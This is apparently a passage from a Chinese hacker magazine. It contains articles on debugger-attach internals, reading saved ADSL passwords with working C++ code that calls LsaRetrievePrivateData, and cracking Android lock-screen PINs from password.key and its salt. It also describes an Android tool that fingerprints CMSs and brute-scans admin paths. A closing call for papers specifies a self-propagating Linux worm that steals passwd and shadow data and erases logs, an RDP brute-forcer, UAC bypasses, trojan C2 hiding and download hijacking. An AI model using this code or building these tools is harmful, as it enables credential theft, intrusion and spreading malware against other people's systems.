但解开了一个谜，反而又多了一个谜：一个正常运行的程序，好端端的为什么恰好这时要特意调用 DbgBreakPoint 呢？冥冥之中是否有定数我不知道，但此处的“恰好”却是有意为之。简单来说，就是 OD 向目标注入了一条调用该函数的线程。但实际情况又稍微复杂一点，如果我们对注入线程的函数 CreateRemoteThread 下断点，是断不下调试器的注入动作的，原因还得从 DebugActiveProcess 说起。

Windows 为调试器附加程序预留了一个 API 接口函数 DebugActiveProcess，具体如下：

```asm
7750739C  8BFF        mov   edi, edi
7750739E  55          push  ebp
7750739F  8BEC        mov   ebp, esp
775073A1  E8 3D290200 call  DbgUiConnectToDbg        ; jmp 到 ntdll.DbgUiConnectToDbg
775073A6  85C0        test  eax, eax
775073A8  7D 0A       jge   short 775073B4
775073AA  50          push  eax
775073AB  E8 E083FCFF call  BaseSetLastNTError
775073B0  33C0        xor   eax, eax
775073B2  EB 32       jmp   short 775073E6
775073B4  56          push  esi
775073B5  FF75 08     push  dword ptr [ebp+8]
775073B8  E8 79FFFFEF call  ProcessIdToHandle
775073BD  8BF0        mov   esi, eax
775073BF  85F6        test  esi, esi
775073C1  74 22       je    short 775073E5
775073C3  57          push  edi
775073C4  56          push  esi
775073C5  E8 0E290200 call  DbgUiDebugActiveProcess  ; jmp 到 ntdll.DbgUiDebugActiveProcess
775073CA  56          push  esi
775073CB  8BF8        mov   edi, eax
775073CD  FF15 CC154877 call dword ptr [<&ntdll.NtClose>]
ntdll.ZwClose
775073D3  85FF        test  edi, edi
775073D5  7D 0A       jge   short 775073E1
775073D7  57          push  edi
775073D8  E8 B383FCFF call  BaseSetLastNTError
775073DD  33C0        xor   eax, eax
775073DF  EB 03       jmp   short 775073E4
775073E1  33C0        xor   eax, eax
775073E3  40          inc   eax
775073E4  5F          pop   edi
775073E5  5E          pop   esi
775073E6  5D          pop   ebp
775073E7  C2 0400     retn  4
```

这个函数有点类似包装函数，前面大半都是准备动作，核心操作是 0x775073C5 处的调用，调用了 ntdll 里的 DbgUiDebugActiveProcess 函数。

```asm
77C8F21D  8BFF            mov     edi, edi
77C8F21F  55              push    ebp
77C8F220  8BEC            mov     ebp, esp
77C8F222  64:A1 18000000  mov     eax, dword ptr fs:[18]
77C8F228  56              push    esi
77C8F229  FFB0 240F0000   push    dword ptr [eax+F24]
77C8F22F  FF75 08         push    dword ptr [ebp+8]
77C8F232  E8 7165FAFF     call    ZwDebugActiveProcess
77C8F237  8BF0            mov     esi, eax
77C8F239  85F6            test    esi, esi
77C8F23B  7C 16           jl      short 77C8F253
77C8F23D  FF75 08         push    dword ptr [ebp+8]
77C8F240  E8 91FFFFFF     call    DbgUiIssueRemoteBreakin
77C8F245  8BF0            mov     esi, eax
77C8F247  85F6            test    esi, esi
77C8F249  7D 08           jge     short 77C8F253
77C8F24B  FF75 08         push    dword ptr [ebp+8]
77C8F24E  E8 08FFFFFF     call    DbgUiStopDebugging
77C8F253  8BC6            mov     eax, esi
77C8F255  5E              pop     esi
77C8F256  5D              pop     ebp
77C8F257  C2 0400         retn    4
```

这里有三处调用，其中第二处为 DbgUiIssueRemoteBreakin。看到 Remote，就该有一机灵，很可能就是远程注入相关的 API。

```asm
77C8F1D6  8BFF            mov    edi, edi
77C8F1D8  55              push   ebp
77C8F1D9  8BEC            mov    ebp, esp
77C8F1DB  51              push   ecx
77C8F1DC  51              push   ecx
77C8F1DD  56              push   esi
77C8F1DE  57              push   edi
77C8F1DF  8D45 F8         lea    eax, dword ptr [ebp-8]
77C8F1E2  50              push   eax
77C8F1E3  33F6            xor    esi, esi
77C8F1E5  8D45 08         lea    eax, dword ptr [ebp+8]
77C8F1E8  50              push   eax
77C8F1E9  56              push   esi
77C8F1EA  68 7DF1C877     push   DbgUiRemoteBreakin
77C8F1EF  56              push   esi
77C8F1F0  68 00400000     push   4000
77C8F1F5  56              push   esi
77C8F1F6  56              push   esi
77C8F1F7  6A 02           push   2
77C8F1F9  56              push   esi
77C8F1FA  FF75 08         push   dword ptr [ebp+8]
77C8F1FD  E8 908AF8FF     call   RtlpCreateUserThreadEx
77C8F202  8BF8            mov    edi, eax
77C8F204  3BFE            cmp    edi, esi
77C8F206  7C 08           jl     short 77C8F210
77C8F208  FF75 08         push   dword ptr [ebp+8]
77C8F20B  E8 B862FAFF     call   ZwClose
77C8F210  8BC7            mov    eax, edi
77C8F212  5F              pop    edi
77C8F213  5E              pop    esi
77C8F214  C9              leave
77C8F215  C2 0400         retn   4
```

这里已经出现了线程操作相关的 API，为 RtlpCreateUserThreadEx。请注意它的其中一个参数 DbgUiRemoteBreakin，这个参数实际为一段函数的地址，主要内容如下：

```asm
77C8F17D  6A 08           push   8
77C8F17F  68 7807C477     push   77C40778
77C8F184  E8 133AFBFF     call   _SEH_prolog4
```

```asm
77C8F189    64:A1 18000000    mov     eax, dword ptr fs:[18]
77C8F18F    8B40 30           mov     eax, dword ptr [eax+30]
77C8F192    8078 02 00        cmp     byte ptr [eax+2], 0
77C8F196    75 09             jnz     short 77C8F1A1
77C8F198    F605 D402FE7F 02  test    byte ptr [7FFE02D4], 2
77C8F19F    74 28             je      short 77C8F1C9
77C8F1A1    64:A1 18000000    mov     eax, dword ptr fs:[18]
77C8F1A7    F680 CA0F0000 20  test    byte ptr [eax+FCA], 20
77C8F1AE    75 19             jnz     short 77C8F1C9
77C8F1B0    8365 FC 00        and     dword ptr [ebp-4], 0
77C8F1B4    E8 534FF9FF       call    DbgBreakPoint
77C8F1B9    EB 07             jmp     short 77C8F1C2
77C8F1BB    33C0              xor     eax, eax
77C8F1BD    40                inc     eax
77C8F1BE    C3                retn
77C8F1BF    8B65 E8           mov     esp, dword ptr [ebp-18]
77C8F1C2    C745 FC FEFFFFFF  mov     dword ptr [ebp-4], -2
77C8F1C9    6A 00             push    0
77C8F1CB    E8 3804F9FF       call    RtlExitUserThread
```

这样看可能感觉略为陌生，但只要稍加跟踪观察即可发现，0x77C8F1B4 处调用了前面提及的函数 DbgBreakPoint。我们已经说过，这个函数是靠远程线程注入调用，而远程线程注入的其中一个参数就是设定回调函数，而 DbgUiRemoteBreakin 正是此处用于设置回调函数的参数。也就是说，调试器远程注入了函数 DbgUiRemoteBreakin，由这个函数调用了 DbgBreakPoint，最终引发异常。

有了回调函数，在哪远程注入线程？就是 RtlpCreateUserThreadEx。这个 API 函数体很长，这里截取核心操作部分。

```asm
77C17D37    50                push    eax
77C17D38    FF75 18           push    dword ptr [ebp+18]
77C17D3B    8D45 AC           lea     eax, dword ptr [ebp-54]
77C17D3E    FF75 1C           push    dword ptr [ebp+1C]
77C17D41    FF75 14           push    dword ptr [ebp+14]
77C17D44    53                push    ebx
77C17D45    FF75 D4           push    dword ptr [ebp-2C]
77C17D48    57                push    edi
77C17D49    52                push    edx
77C17D4A    50                push    eax
77C17D4B    68 FFFF1F00       push    1FFFFF
77C17D50    8D45 D4           lea     eax, dword ptr [ebp-2C]
77C17D53    50                push    eax
77C17D54    E8 CFD90100       call    ZwCreateThreadEx


```

这个函数最终调用了 ZwCreateThreadEx，这是个什么函数呢？是不是看起来不像常见线程注入函数？以最常见的 kernel32 中的 CreateRemoteThread 作比方，CreateRemoteThread 函数是个包装函数，调用链为：CreateRemoteThread -> CreateRemoteThreadEx -> ZwCreateThreadEx。也就是说，CreateRemoteThread 最终也是调用了 ZwCreateThreadEx 来完成远程线程的注入工作。

现在，异常指令、回调函数和远程线程注入 API 三大要素都齐了，调试器只要简单地调用 DebugActiveProcess 就能注入线程实现附加。

知道技术原理，要设计 Anti 调试器附加就很轻易了。既然附加最终需要通过回调函数 DbgUiRemoteBreakin 调用 DbgBreakPoint 完成，而我们又知道调试器必须通过 DbgBreakPoint 触发异常才能完成附加，因此，只要在此之间进行钩挂检测即可，或者采取更粗暴的方法，直接使 DbgUiRemoteBreakin 函数失效也可达到 Anti 的效果。

最后再说说 Anti-anti 的思路。Anti 是围绕回调函数 DbgUiRemoteBreakin 展开，做得细致可以使 DebugActiveProcess 无懈可击，但跳出思维定式回忆一下，其实附加的本质操作是通过远程注入线程执行 int 3 指令，调试器才“挑食”，回调函数只要有 int 3 就“管饱”，而且远程注入线程还有个更常用的函数 CreateRemoteThread。既然 Anti 让 DebugActiveProcess 失效，那索性用 CreateRemoteThread 让它彻底下岗就好了。

## 编程读取 ADSL 密码

文/图 李旭昇

最近学校的网络设置由静态 IP 升级为动态 IP，即通过 PPPoE 协议拨号上网。现在只要设置保存密码，就可以省去重复输入的麻烦，不过保存密码也会形成一定安全隐患。无巧不成书，我有关黑客的最早记忆，就是“神奇”的 ADSL 密码读取工具。借着这次网络升级，我决定搞清楚其原理。

记得 XP 时代 ADSL 密码框显示星号，可以向其发送消息使其显示密码。不过 Win7 的密码框已经有所防范，如图 1 所示，不显示星号，只提示需要修改时单击。
图 1 Win7 拨号界面的密码框

我查阅了 MSDN 中有关拨号上网的函数，发现使用的不是密码明文，而是一个指向加密后密码的“指针”，而且该“指针”与加密后密码的对应方式也不公开，于是 Hook 函数的想法也行不通。我没有放弃，决定搜索一下。网上虽然没有具体的分析，但提供工具下载，看来只有自己动手了！首先从 http://www.nirsoft.net/utils/dialupass.html 下载 Dialupass 的最新版，丢到 IDA 里，双击运行，如图 2 所示，Dialupass 的确能够读取保存的 ADSL 密码。
图 2 Dialupass 读取保存的 ADSL 密码

Dialupass 为 32 位程序，F5 插件可用，初步判断没有加壳加花，所以分析起来比较容易。文档中指出 Dialupass 支持命令行调用，命令 `Dialupass /stext D:\Password.txt` 可以将密码输出到文本文档中。就逆向分析而言，命令行模式不必处理各种窗口消息，所以比 GUI 方便许多。

经过反复的调试和分析，终于得到了有价值的线索，如图 3 和图 4 所示。

```c
if ( FuncPresent(u6) )
  ... // LsaRetrievePrivateData
result = PrivateData;
if ( PrivateData )
{
  ...
  result = FuncPresent(u6);
  if ( result )
    result = ... // LsaFreeMemory
}
return result;
```

图 3

```c
if ( *(_DWORD *)(a1 + 20) )
{
  result = 1;
}
else
{
  u3 = LoadLibraryW(L"advapi32.dll");
  ...
  u4 = GetProcAddress(u3, "LsaOpenPolicy");
  u6 = GetProcAddress(u5, "LsaRetrievePrivateData");
  u8 = GetProcAddress(u7, "LsaClose");
  u10 = GetProcAddress(u9, "LsaFreeMemory");
  ...
}
```

图 4 IDA 反汇编得到的 C 代码

如图 4 中的函数，尝试获取几个 API 函数的地址，并保存在一个数组内，如果成功则返回 true，将该函数重命名为 FuncPresent。图 3 所示的代码在调用 FuncPresent 后，调用 `v6+8` 指向的函数。查看 FuncPresent 的代码，发现 `v6+8` 为 LsaRetrievePrivateData。加上后面调用的 `v6+16` 指向的 LsaFreeMemory，基本可以确定这是一个 API 调用片段。LsaRetrievePrivateData 的名字就十分可疑；不仅如此，MSDN 中给出的原型为：

```c
NTSTATUS LsaRetrievePrivateData(
    _In_    LSA_HANDLE PolicyHandle,
    _In_    PLSA_UNICODE_STRING KeyName,
    _Out_   PLSA_UNICODE_STRING *PrivateData
);


```

其功能是根据 KeyName 获取相应的 PrivateData。MSDN 中并没有给出具体的 KeyName 与数据的对应关系，我只好到程序中找答案。由于 Dialupass 中该片段被多次执行（处于一个循环中），在 IDA 中分析比较繁琐，于是改用 API Monitor 工具查看 LsaRetrievePrivateData 的调用情况。如图 5 所示，在唯一一次成功调用中，第二个参数为“RasDialParams:” + 当前用户的 Sid + “#0”，由此已经可以确认 Dialupass 读取 ADSL 密码的方法。
图 5 API Monitor 显示的 LsaRetrievePrivateData 函数调用情况

纸上得来终觉浅，绝知此事要躬行。虽然已经破解其中的奥秘，还要编程实现一下才有把握。主要代码如下：

```cpp
LSA_HANDLE GetPolicyHandle()
{
    LSA_OBJECT_ATTRIBUTES ObjectAttributes;
    NTSTATUS ntsResult;
    LSA_HANDLE lsahPolicyHandle;

    // Object attributes are reserved, so initialize to zeros.
    ZeroMemory(&ObjectAttributes, sizeof(ObjectAttributes));

    // Get a handle to the Policy object.
    ntsResult = LsaOpenPolicy(
        NULL,                  // Name of the target system.
        &ObjectAttributes,     // Object attributes.
        POLICY_ALL_ACCESS,     // Desired access permissions.
        &lsahPolicyHandle      // Receives the policy handle.
    );

    if (ntsResult != 0)
    {
        // An error occurred. Display it as a win32 error code.
        wprintf(L"OpenPolicy returned %lu\n",
            LsaNtStatusToWinError(ntsResult));
        return NULL;
    }
    return lsahPolicyHandle;
}

int main()
{
    LSA_HANDLE LsaHandle = GetPolicyHandle();
    // cout << "PolicyHandle: " << LsaHandle << endl;

    LSA_UNICODE_STRING KeyName;
    KeyName.MaximumLength = MaxBuf;
    KeyName.Buffer = new wchar_t[MaxBuf];

    wstring LsaParam;
    GetUserName(LsaParam);
    LsaParam = L"RasDialParams:" + LsaParam + L"#0";
    wcout << LsaParam << endl;
    lstrcpy(KeyName.Buffer, LsaParam.c_str());
    KeyName.Length = 2 * wcslen(KeyName.Buffer);

    PLSA_UNICODE_STRING pPrivateData = new LSA_UNICODE_STRING;
    pPrivateData->MaximumLength = MaxBuf;
    pPrivateData->Buffer = new wchar_t[MaxBuf];
    pPrivateData->Length = 0;

    if (LsaRetrievePrivateData(LsaHandle, &KeyName, &pPrivateData))
    {
        cout << "LsaRetrievePrivateData failed: " << GetLastError() << endl;
        return 1;
    }

    LsaClose(LsaHandle);
    wstring RawPass = wstring(pPrivateData->Buffer, pPrivateData->Length);
    GetRealPassword(RawPass);
    wcout << RawPass << endl << endl;

    getchar();
    return 0;
}


```

程序的思路非常自然，首先调用 `GetPolicyHandle` 获得一个句柄。该函数是 MSDN 中给出的示例，这里直接借用。接着依次填充 `KeyName` 和 `PrivateData` 结构。如何获取当前用户的 SID 在 MSDN 中也有详细的介绍，这里不再赘述。最后只需调用一下 `LsaRetrievePrivateData` 函数就可以得到 ADSL 密码！具体的数据位于 `PrivateData->Buffer`，是一个以 `\0` 分隔的字符串，包含当前用户存储的所有 ADSL 账户和密码。用 `GetRealPassword` 函数将其格式化成更易读的形式，有兴趣的读者请参阅完整源码。

如图 6 所示，程序运行后成功获取保存的 ADSL 密码。
图 6 程序成功获取保存的 ADSL 密码

以上就是我关于 ADSL 密码的研究过程，虽然并不复杂，但仍小有收获，故整理成文，希望能与大家共同进步。如有不当之处，还望批评指正。

（完）

## 深入解析 Android 系统屏幕锁

文/图 胡椒和盐

Android 系统的屏幕锁有 9 宫格、PIN 锁和密码锁 3 种方式。在 9 宫格方式下，图案中的每个连通点的坐标会组成一个字符串，通过计算这个字符串的 MD5 值，并将其与 `/data/system/gesture.key` 中存储的值进行比较，来确定输入是否合法。对于其他两种模式，参考资料不多。本文将通过分析相关的 Android 源代码来剖析其他两种屏幕锁的运行机制和安全性。分析基于 Android-19，其他版本在功能上大致相同，需要注意的不同之处会在文中给出说明。

### 密码文件

9 宫格模式使用的密码文件是 `/data/system/gesture.key`，文件内容为 9 宫格图案中点坐标 MD5 值的 16 进制字符串形式，文件长 32 字节。在该目录下，还有一个 `password.key` 文件，长 72 字节，存放的就是 PIN 锁和密码锁使用的 key。虽然这两种锁模式的表现方式不同，但处理方式在内部是一样的。尽管这个文件里也是存放的 Hash 值，但文件长度表示它使用的应该是扩展的 Hash 函数。

计算 Hash 值的函数在源文件 `LockPatternUtils.java` 中，代码如下：

```java
public byte[] passwordToHash(String password) {
    ......
    byte[] saltedPassword = (password + getSalt()).getBytes();
    byte[] sha1 = MessageDigest.getInstance(algo = "SHA-1").digest(saltedPassword);
    byte[] md5  = MessageDigest.getInstance(algo = "MD5").digest(saltedPassword);
    hashed = (toHex(sha1) + toHex(md5)).getBytes();
    ......
    return hashed;
}
```

从这段代码中可以看到使用的 Hash 函数形式如下：

`sha1(salted-password) + md5(salted-password)`

也就是说，这里使用了 SHA1 和 MD5 两个 Hash 函数，结果相加才是我们需要的新 Hash 值。

组合使用 Hash 函数的方式在应用密码学中非常普遍。区别于标准的 MD5 和 SHA1，这种“非标准”的函数形式，通常情况下其安全性要高于单独使用的“标准的” Hash 函数。例如，对于上面的计算函数，即使找到了一个字符串，其 MD5 值和后 32 个字节相匹配；因为其 SHA1 值未必同前 40 个字节相匹配，所以最后的计算结果也未必能匹配，进一步提升了 Hash 函数的安全性。

### 加盐的密码

从函数 `passwordToHash` 中可以看到，用户输入的字符串并不直接用在计算 Hash 值上。

`byte[] saltedPassword = (password + getSalt()).getBytes();`

#### Android 远程监控技术

用户输入的字符串在末尾加上了 `getSalt()` 函数的返回值，构成一个新字符串。这个操作就是密码学中所谓的加盐：在计算 Hash 值之前，在明文字符串的指定位置加上一些特定的字符串。这里的关键是获取 salt 的 `getSalt()`。

```java
private String getSalt() {
    long salt = getLong(LOCK_PASSWORD_SALT_KEY, 0);
    ...
    return Long.toHexString(salt);
}
```

这个函数也可以在文件 `LockPatternUtils.java` 中找到。其中：

```java
public final static String LOCK_PASSWORD_SALT_KEY =
        "lockscreen.password_salt";
```

也就是说，`getSalt` 函数通过调用 `getLong` 函数获得一个 64 位 Long 型数值，并将其转换成 16 进制字符串附加在用户输入的字符串末尾，从而得到新的密码字符串。`getLong` 函数如下：

```java
private long getLong(String secureSettingKey, long defaultValue) {
    ...
    return getLockSettings().getLong(secureSettingKey, defaultValue,
            getCurrentOrCallingUserId());
    ...
}
```

从上面的代码可以看出，它最终会调用 `LockSettingsService` 的 `getLong` 函数来实现其功能。在 `LockSettingsService.java` 中可以找到 `getLong` 的实现。

```java
public long getLong(String key, long defaultValue, int userId) throws RemoteException {
    ...
    String value = readFromDb(key, userId);
    return TextUtils.isEmpty(value) ? defaultValue : Long.parseLong(value);
}


```

也就是说，`getLong` 返回的 salt 是从数据库中读取的一个值。通过检查 `readFromDb` 函数可以发现，程序从数据库 `locksettings.db` 中读取表 `locksettings` 中 `name` 列为 `lockscreen.password_salt` 的记录，其 `value` 列就是我们要找的 salt 值。

## 文件位置

我的测试机为联想 S899T，版本为 Android 4.0.3。在尝试读取文件 `/data/system/locksettings.db` 时发现找不到这个文件。通过分析 Android 4.0.3 的源代码发现，数据库文件是 `/data/data/com.android.providers.settings/databases/settings.db`，表名为 `secure`。如图 1 所示。
图 1

## 破解

通过上面的分析可以看出，在 PIN 模式密码下，用户输入为 4 位数字，暴力破解可以很简单地解决问题。在密码模式下，用户输入为 4～16 位数字、字符，密码只要设置得当，破解是非常费时间的。下面是破解步骤。

- 1) 导出 `/data/system/password.key` 文件。
- 2) 导出 `/data/system/locksettings.db` 文件。
- 3) 读取 `locksettings.db` 中 `locksettings` 表 `name` 列为 `lockscreen.password_salt` 的记录的 `value`。
- 4) 根据步骤 3 的结果构造密码 `password`，计算 `key = sha1(password) + md5(password)`。
- 5) 比较 `key` 和步骤 1 获得的 `password.key`，相同则 `key` 就是要找的密码；否则转步骤 4 继续构造新密码。

## 打造 Android 系统 Web 渗透工具

文/图 马智超（DesertEagle）

随着无线通信与国际互联网等多媒体通信结合的新一代移动通信系统 3G 技术的普遍应用以及 4G 技术的迅猛发展，智能手机传输数据的速率越来越快，3G 的速率一般在几百 KBPS 以上。与此同时，智能手机上的渗透 APP 的需求也会越来越大。对于 Android 平台的 Web 渗透工具也很少，于是出于兴趣，我写了一个这样的工具。

我写的这个渗透工具对我来说是个半成品，还有许多功能需要完善，但是已经有了 Web 渗透工具所需具有的一些功能了。此工具有以下几个功能：

- 1) 对指定的 URL 地址进行扫描解析，可以自动识别出几个常用的建站系统，如 WordPress、Joomla、Discuz、Drupal 等。
- 2) 可以选择提交数据的方式，可以选择 POST 或者 GET 方式提交数据。
- 3) 可以读取存放后台目录的字典文件，进行后台地址扫描。扫描到后台路径后，会显示在界面中，点击该界面中的 URL 就可自动打开浏览器进入该后台页面。

## 原理及 Android 平台实现方法

先来谈谈如何识别常用的建站系统。对建站系统进行识别可以从以下四种思路入手：特定文件的 MD5（主要是静态文件，不一定要是 MD5）；扫描指定 URL 的关键字；扫描指定 URL 的 TAG 模式；搜寻网页中的特殊关键字。

我采用的是第四种方法。在网页中，一些常用的建站系统会有一些关键字，如 WordPress 系统可能会有 WordPress 几点几版本的字样，但仅有这样的字样不一定是 WordPress 建站系统。我们可以查看一个 WordPress 网站的源代码，看到一般的 WordPress 系统网站页面中 `meta` 标签的 `generator` 属性为 `WordPress x.x.x` 这样的字样，于是我们可以抓取页面内容，然后通过正则表达式判断是否含有这样的内容来判断是否是 WordPress 建站系统。同理，对其他一些常用的建站系统也可以这样判断。

我们可以发送 HTTP GET 或者 HTTP POST URL 请求，获取页面内容信息，最后判断页面里是否含有相应的特征字。核心代码如下：

```java
// 此处以 GET 方式为例
HttpGet httpRequest = new HttpGet(url);
HttpResponse httpResponse = new DefaultHttpClient().execute(httpRequest);

// HttpResponse 类封装 HTTP 的响应信息，这里需要用正则表达式来忽略大小写，然后去除空格号和换行符。
String strPattern = "(?i)";
Pattern p = Pattern.compile(strPattern);
Matcher m = p.matcher(strTarget);
.....

// Pattern 是一个正则表达式经编译后的表现模式，一个 Matcher 对象是一个状态机器，
// 依据 Pattern 对象作为匹配模式对字符串展开匹配检查。
if (httpResponse.getStatusLine().getStatusCode() == 200) {
    ...
    // 这个状态就证明了给定的 URL 存在
    // 这里偷懒了，直接看是否含有相应的字段
    if (strResult.indexOf(String.valueOf("name=\"generator\" content=\"WordPress")) != -1) {
        TextView1.setText("识别出： Wordpress");
    } else if (strResult.indexOf(String.valueOf("name=\"generator\" content=\"Joomla")) != -1) {
        TextView1.setText("识别出： Joomla");
    }
    ........
}
```

至于 POST、GET 提交方式的选择就不详说了，HTTP Client Method 库里有相应的类可以调用。

对于后台地址扫描的原理，我在前几期的文章里已经提到了，就是通过读取字典文件中罗列的路径信息，一个个向指定页面发送请求数据，通过 HTTP 的返回状态来判断页面是否存在，而路径信息是一般常用的后台地址路径。核心代码如下：

```java
File file = new File("/sdcard/password.txt");
BufferedReader br = new BufferedReader(new FileReader(file));
String line = "";
line = br.readLine();
// 读取字典文件
while (line != null) {
    String reString = uri + "/" + line.toString();
    HttpGet httpRequest = new HttpGet(reString);
    HttpResponse httpResponse = new DefaultHttpClient().execute(httpRequest);
    if (httpResponse.getStatusLine().getStatusCode() == 200) {
        // 此状态证明该后台路径存在
    }
}
```

最后，如果想要点击后能够自动跳转到相应的后台，可以设置 TextView 中的字符为链接模式：

```java
Html.fromHtml("<a href=\"" + reString + "\">" + reString + "</a>\n");


```

## Android 平台 Web 渗透工具测试

首先打开软件界面，如图 1 所示。
图 1

在 Domain 处输入要扫描的完整 URL 地址，如这里先输入 `http://koryi.com` 进行测试，可以看到它可以识别一些建站系统，如图 2 和图 3 所示。
图 2
图 3

进入该页面查看源代码，可以看到如图 4 所示的结果。
图 4

接下来测试后台地址扫描，如图 5 所示。中间的控件显示了破解的过程，扫到的地址为 `http://koryi.com/wp-admin/`，进入后如图 6 所示。
图 5
图 6

为了方便测试，字典文件的设置也不是很大，利用学校的 I-HDU 校园网迅速跑出了结果。至于怎么拿取后台地址，方法就很多了；可以利用各种后台漏洞、社工以及进行暴力破解。

经过以上测试，此渗透工具可以运行在 Android 系统上，可以对一些建站系统进行识别，可以选择 POST/GET 方式提交数据，可以读取字典文件，扫描后台地址。

（完）

### 2014 年第 5 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：**675122680@qq.com**、**hadefence@gmail.com**，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 5 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. Windows 7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows 7 屏幕保护密码的方法。

### 3. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

### 4. Linux 自动检测网络安全

要求：

- 1) 自动收集当前 Linux 系统的信息，如 uname、hosts、passwd、shadow、ifconfig、ps、netstat、history 等；
- 2) 通过我们提供的帐号密码库自动测试远程登录，若登录成功则将远程主机的地址、端口、帐号、密码以及从哪一台机器登录的等详细记录；
- 3) 将该程序自动复制到第 2 步成功登录的远程 Linux 主机，并重复 1、2、3 步操作；
- 4) 可以手动制定结束条件，比如测试主机的个数，目的是防止重复登录；
- 5) 将 1、2、3 中收集或记录的信息回传到一开始的主机；
- 6) 完成操作后清除相关的操作记录。

### 5. 暴力破解 3389 远程桌面密码

要求：

- 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
- 2) 读取指定的用户名和密码字典文件；
- 3) 采用多线程；
- 4) 所有函数都必须判断错误值；
- 5) 使用 VC++2008 编译工具实现，控制台程序；
- 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7) 支持 Windows XP/2003/2008。

### 6. Web 服务器批量扫描破解

- 1) 针对目标 IP 参数要求

  10.10.0.0/16  
  10.10.3.0/24  
  10.10.1.0-10.255.255.255

- 2) 针对目标 Web 服务器扫描要求

  可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 Apache 或者 IIS 等，具体参考如下：

  Tomcat、Weblogic、Jboss  
  Apache、JOnAS、WebSphere  
  Lotus Server、IIS(Webdav)、Axis2  
  Coldfusion、Monkey HTTPD、Nginx

- 3) 针对目标 Web 服务器后台扫描

  针对目标进行后台地址搜索。

- 4) 针对目标 Web 后台密码破解

  搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 7. 木马控制端 IP 地址隐藏

要求：

- 1) 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 8. Web 后台弱口令暴力破解

说明：

针对国际常用建站系统以及自编写的 Web 后台无验证码登录形式的后台弱口令帐密暴力破解。

要求：

- 1) 能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2) 根据抓取提交帐密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3) 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4) 高级功能：默认字典跑不出来的后台，可根据设置相应的 Google、Bing 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的帐密可通过 Google、Bing 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破帐密，如用户为 admin，密码可自动填充为域名；用户为 abcd@abcd.com，账户密码就可以设置为 abcd、abcd 以及 abcd123 或 abcd123456 等简单帐密；
- 5) 拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及帐密字典可自定义设置等。

### 9. 编写端口扫描器

要求：

- 1) 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2) 扫描方式采用多线程，并能设置线程数；
- 3) 将功能编写成 DLL，导出功能函数；
- 4) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5) 尽量多做出错异常处理，以防程序意外崩溃；
- 6) 使用 VC++2008 编译工具编写；
- 7) 支持系统 Windows XP/2003/2008/7。

### 10. Android WiFi Tether 数据转储劫持

说明：

WiFi Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WiFi Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1) 开启 WiFi 热点后，对流经本机的所有网络数据进行存储；
- 2) 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 `HTTP.DAT`；
- 3) 针对 HTTP 下载进行劫持，比如用户下载 `www.xx.com/abc.zip`，软件能拦截此地址并替换 `abc.zip` 文件。

### 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1) Windows UAC 安全设置为最高级别；
- 2) 系统补丁打到最新；
- 3) 支持 32 位和 64 位系统。

## 2014 年征稿启示

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

### 投稿栏目

### 首发漏洞

要求原创，必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day。稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理；对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

